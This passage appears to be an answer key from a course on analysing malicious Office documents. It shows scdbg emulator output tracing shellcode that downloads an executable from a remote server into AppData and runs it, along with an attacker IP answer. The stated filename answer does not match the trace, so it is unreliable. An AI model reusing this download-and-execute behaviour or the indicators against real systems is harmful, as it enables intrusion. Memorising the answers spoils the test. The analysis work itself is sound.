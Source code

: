 Answer: `2.59.254.18`

# Skills Assessment - Maldoc Analysis

## Question 2

### "In the same shellcode, what is the name of the file hosted at the remote server."

Students will reuse the output of the `scdbg.exe` shellcode emulator and will scrutinize the `URLDownloadToFileW` function to obtain the name of the executable hosted on the remote server:

Code: cmd

```cmd
scdbg.exe /f C:\Temp\academy_student.sc /foff 6F
```

```
C:\Tools\Maldoc\Office\Tools\scdbg>scdbg.exe /f C:\Temp\academy_student.sc /foff 6F

Loaded 689 bytes from file C:\Temp\academy_student.sc
Initialization Complete..
Max Steps: 2000000
Using base offset: 0x401000
Execution starts at file offset 6f
40106f  E94B010000                      jmp 0x4011bf  vv
401074  8209B3                          or byte [ecx],0xb3
401077  69E54171043F                    imul esp,ebp,0x3f047141
40107d  DB1B                            fistp [ebx]
40107f  3A2B                            cmp ch,[ebx]

40144a  GetProcAddress(ExpandEnvironmentStringsW)
401493  ExpandEnvironmentStringsW(%APPDATA%\lawserhgj5784.exe, dst=12fb84, sz=104)
4014a8  LoadLibraryW(UrlMon)
4014c3  GetProcAddress(URLDownloadToFileW)
401527  URLDownloadToFileW(http://{hidden}/_errorpages/{hidden}.exe, C:\Users\Administrator\AppData\Roaming\lawserhgj5784.exe)
40153f  GetProcAddress(GetStartupInfoW)
401549  GetStartupInfoW(12fda4)
401560  GetProcAddress(CreateProcessW)
401585  {hidden}( , C:\Users\Administrator\AppData\Roaming\lawserhgj5784.exe ) = 0x1269
401599  GetProcAddress(ExitProcess)
40159d  ExitProcess(0)

Stepcount 41813
```

Answer: `lawzx.exe`

# Skills Assessment - Maldoc Analysis
